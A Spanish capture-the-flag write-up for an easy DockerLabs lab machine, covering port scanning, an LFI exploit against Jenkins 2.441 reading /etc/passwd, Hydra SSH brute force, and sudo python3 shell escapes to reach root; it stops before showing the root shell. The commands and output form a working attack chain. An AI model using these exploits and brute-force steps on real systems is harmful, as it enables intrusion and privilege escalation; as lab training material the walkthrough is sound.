


#Writeups #Easy #DockerLabs


Hacemos un escaneo general:

```bash
❯ sudo nmap -sS -p- -Pn --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-04 10:35 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.19 seconds
```

Encontramos dos servicios activos, un ssh y un http, vamos a hacer un escaneo mas profundo:

```bash
❯ sudo nmap -p22,8080 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-04 10:38 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000030s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 94:fb:28:59:7f:ae:02:c0:56:46:07:33:8c:ac:52:85 (ECDSA)
|_  256 43:07:50:30:bb:28:b0:73:9b:7c:0c:4e:3f:c9:bf:02 (ED25519)
8080/tcp open  http    Jetty 10.0.18
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesnt have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(10.0.18)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.12 seconds
```

Vemos la web y es un login de jenkins:


Probé insertar credenciales por defecto y buscar directorios ocultos por gobuster pero no encontré nada así que vamos a hacer un whatweb a ver que información podemos sacar de las versiones de programas que este usando la web:

```bash
❯ whatweb 172.17.0.2:8080
http://172.17.0.2:8080 [403 Forbidden] Cookies[JSESSIONID.bf331c09], Country[RESERVED][ZZ], HTTPServer[Jetty(10.0.18)], HttpOnly[JSESSIONID.bf331c09], IP[172.17.0.2], Jenkins[2.441], Jetty[10.0.18], Meta-Refresh-Redirect[/login?from=%2F], Script, UncommonHeaders[x-content-type-options,x-hudson,x-jenkins,x-jenkins-session]

http://172.17.0.2:8080/login?from=%2F [200 OK] Cookies[JSESSIONID.bf331c09], Country[RESERVED][ZZ], HTML5, HTTPServer[Jetty(10.0.18)], HttpOnly[JSESSIONID.bf331c09], IP[172.17.0.2], Jenkins[2.441], Jetty[10.0.18], PasswordField[j_password], Title[Sign in [Jenkins]], UncommonHeaders[x-content-type-options,x-hudson,x-jenkins,x-jenkins-session], X-Frame-Options[sameorigin]
```

Obtenemos la versión de Jetty que también obtuvimos en nmap y la versión de Jenkins 2.441, vamos a buscar si existen exploits para esta versión:



Vemos un Local File Inclusion así que lo descargamos y lo ejecutamos con python a ver si nos da algún resultado:

```bash
❯ python3 51993.py
usage: 51993.py [-h] -u URL [-p PATH]
51993.py: error: the following arguments are required: -u/--url
❯ python3 51993.py -u http://172.17.0.2:8080 -p /etc/passwd
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
bobby:x:1001:1001::/home/bobby:/bin/bash
games:x:5:60:games:/usr/games:/usr/sbin/nologin
pinguinito:x:1002:1002::/home/pinguinito:/bin/bash
```

La vulnerabilidad funciona, y leyendo el etc/passwd podemos saber los usuarios del sistema, leí mas archivos por si encontraba alguna contraseña para entrar por el login pero no encontré nada así que decidí usar fuerza bruta con hydra para el ssh :

```bash
❯ touch users.txt
❯ echo bobby >> users.txt
❯ echo pinguinito >> users.txt
❯ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-04 12:30:24
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688798 login tries (l:2/p:14344399), ~1793050 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: bobby   password: chocolate
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Encontramos las credenciales **bobby:chocolate**.
Vamos a entrar al sssh:

```bash
❯ ssh bobby@172.17.02
The authenticity of host '172.17.0.2 (172.17.0.2)' cant be established.
ED25519 key fingerprint is SHA256:g5HpEMVrzx0F/fmegIvdqdciTROIw/2YvKHJAiaZ12U.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
bobby@172.17.0.2s password: 
Linux 05d715d4b44b 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
bobby@05d715d4b44b:~$ sudo -l
Matching Defaults entries for bobby on 05d715d4b44b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User bobby may run the following commands on 05d715d4b44b:
    (pinguinito) NOPASSWD: /usr/bin/python3
bobby@05d715d4b44b:~$ 

```

Entramos como usuario bobby y haciendo una enumeración de permisos vemos que podemos ejecutar un comando de python3 como pinguinito, así que vamos a ello para hacer el movimiento lateral a pinguinito:

```bash
bobby@05d715d4b44b:~$ sudo -u pinguinito python3 -c 'import os; os.system("/bin/sh")'
$ whoami
pinguinito
$ 
```

El comando de python lo podéis encontrar en la web GTFOBINS, ahora vamos a enumerar los permisos de pinguinito:

```bash
$ sudo -l
Matching Defaults entries for pinguinito on 05d715d4b44b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pinguinito may run the following commands on 05d715d4b44b:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
$ ls -la /opt/script.py
-r-xr--r-- 1 pinguinito root 272 May 11 08:22 /opt/script.py
$ 
```

Vemos que tenemos permisos de sudo para el script.py pero no tenemos permisos de escritura a pesar de ser propietarios del archivo, vamos a ver si podemos cambiar los permisos y escribir:

```bash
$ chmod +w /opt/script.py
$ echo import os; os.system("/bin/sh") > /opt/script.py
/bin/sh: 5: Syntax error: word unexpected (expecting ")")
$ echo 'import os; os.system("/bin/sh")' > /opt/script.py
$ cat /opt/script.py
import os; os.system("/bin/sh")
$ 
```

Ahora ejecutamos el script con sudo y vemos que obtenemos root:



